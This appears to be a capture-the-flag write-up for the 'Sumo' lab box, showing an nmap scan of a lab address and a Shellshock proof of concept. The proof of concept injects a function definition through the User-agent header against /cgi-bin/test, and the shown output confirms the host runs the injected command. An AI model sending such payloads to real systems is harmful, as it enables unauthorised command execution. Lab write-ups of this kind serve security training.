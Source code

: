 ```yaml
---
layout: post
author: H4
---
```


Vulnhub source  
[Details](https://www.vulnhub.com/entry/sumo-1,480/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration
As always we are starting with a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn -p22,80 -sV 192.168.150.87
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 16:26 EST
Nmap scan report for 192.168.150.87
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
```

On port 80 there is a web server with a default landing page.  
> Using `gobuster` on this website reveals that there is a resource named `/cgi-bin/test`. So it might be a good idea to test for the classic `shellshock` vulnerability.
{: .prompt-info }

---

# exploitation
## shellshock on port 80 (`/cgi-bin/test`)
### proof of concept
```bash
$ curl -H "User-agent: () { :;}; echo; echo vulnerable" http://192.168.150.87/cgi-bin/test
vulnerable
Content-type: text/html

CGI Default !
```
